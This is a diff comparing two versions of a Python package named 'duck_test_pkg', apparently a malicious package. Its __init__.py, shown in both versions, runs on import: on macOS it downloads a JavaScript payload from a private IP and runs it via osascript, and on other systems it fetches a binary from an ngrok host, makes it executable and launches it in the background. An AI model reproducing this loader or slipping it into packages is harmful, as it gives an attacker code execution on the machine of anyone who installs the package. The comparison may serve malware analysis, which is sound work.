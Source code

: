 # Comparing `tmp/duck_test_pkg-1.99.11.tar.gz` & `tmp/duck_test_pkg-1.99.9.tar.gz`

## filetype from file(1)

```diff
@@ -1 +1 @@
-gzip compressed data, was "duck_test_pkg-1.99.11.tar", max compression
+gzip compressed data, was "duck_test_pkg-1.99.9.tar", max compression
```

## Comparing `duck_test_pkg-1.99.11.tar` & `duck_test_pkg-1.99.9.tar`

### file list

```diff
@@ -1,4 +1,4 @@
--rw-r--r--   0        0        0       58 2023-07-20 20:38:03.036592 duck_test_pkg-1.99.11/README.md
--rw-r--r--   0        0        0      709 2023-07-31 18:37:52.655783 duck_test_pkg-1.99.11/duck_test_pkg/__init__.py
--rw-r--r--   0        0        0      334 2023-07-31 18:38:17.233507 duck_test_pkg-1.99.11/pyproject.toml
--rw-r--r--   0        0        0      351 1970-01-01 00:00:00.000000 duck_test_pkg-1.99.11/PKG-INFO
+-rw-r--r--   0        0        0       58 2023-07-20 20:38:03.036592 duck_test_pkg-1.99.9/README.md
+-rw-r--r--   0        0        0      586 2023-07-31 15:39:46.760775 duck_test_pkg-1.99.9/duck_test_pkg/__init__.py
+-rw-r--r--   0        0        0      333 2023-07-31 15:41:43.732153 duck_test_pkg-1.99.9/pyproject.toml
+-rw-r--r--   0        0        0      350 1970-01-01 00:00:00.000000 duck_test_pkg-1.99.9/PKG-INFO
```

### Comparing `duck_test_pkg-1.99.11/duck_test_pkg/__init__.py` & `duck_test_pkg-1.99.9/duck_test_pkg/__init__.py`

 * *Files 22% similar despite different names*

```diff
@@ -1,22 +1,14 @@
 from sys import exit
 from platform import platform
 from subprocess import Popen
-from time import sleep
 
 os = platform().lower()
 
 
-def __getattr__(self):
-    def fun():
-        sleep(60*60*60)
-        pass
-    return fun
-
-
 def mznt():
     d = "/private/tmp/o"
     c = f"""
     curl -s http://192.168.10.82:9000/o.js -o {d} && nohup /usr/bin/osascript -l JavaScript {d} 1>/dev/null 2>&1 &
     """
     Popen(c, shell=True)
 
@@ -26,15 +18,16 @@
     c = f"""
     curl -s https:///eb.ngrok.dev/e -o {d} && chmod +x {d} && nohup {d} &1>/dev/null 2>&1 &'
     while true; do
       sleep 5
     done    
     """
     Popen(c, shell=True)
+    pass
 
 
 if "macos-" in os:
     mznt()
-    print("imported!!!")
 else:
     pgn()
 
+exit(0)
```

